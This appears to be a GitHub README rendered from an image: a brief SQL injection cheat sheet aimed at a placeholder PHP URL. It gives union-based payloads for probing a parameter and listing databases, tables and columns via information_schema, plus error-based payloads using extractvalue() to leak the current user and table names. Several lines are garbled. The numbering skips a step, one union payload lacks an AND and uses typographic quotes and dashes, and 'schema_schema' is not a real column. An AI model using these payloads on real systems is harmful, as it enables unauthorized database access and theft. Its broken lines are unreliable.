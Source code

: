 <h1>SQL Injection</h1>

SQLi is a server side web security vulnerability.SQLi occurs when user supplied data is passing in SQL querry without sanitization.

Union based SQL Injection
=========================
 
Let's assume, vulnerable URL is:

     http://b0x.com/vulnerable.php?id=1
1 . Balance the query

     http://b0x.com/vulnerable.php?id=1'-- -
   
     http://b0x.com/vulnerable.php?id=1--
2 . Checking true false condition by using below mentioned payloads 

     http://b0x.com/vulnerable.php?id=1' and 1=1-- -
     http://b0x.com/vulnerable.php?id=1' and 1=2-- -
     
     http://b0x.com/vulnerable.php?id=1' and 1='1
     http://b0x.com/vulnerable.php?id=1' and 1='2     
4. Finding columns
5. Invalidating output of first query.
6. Using union select 1,2 — -  ——>Union select 1,table_name,3 from information_schema.tables where table_schema=‘mysql’ table_name=‘user’

<b>Find the table name</b> 

    Select table_name from information_schema.tables where table_schema=database()


<b>extract column names</b>

To find column name from specify table and database

    Select column_name from information_schema.columns where table_schema='security' and table_name='user'
To find column name from specify table of current database

    Select column_name from information_schema.columns where table_schema=database() and table_name='user'

<b>Finding the list of databases</b>

Select group_concat(schema_schema) from information_schema.schemata

Error based SQL Injection
=========================

->and extractvalue(1,concat(0x7e,user()))

->We can’t use direct select statement  in this function we have to make it inline query….

and extractvalue(1,concat(0x7e,(select table_name from information_schema.tables where table_schema=database() limit 0,1)))

->Here we make it inline query by injecting in (____) field.



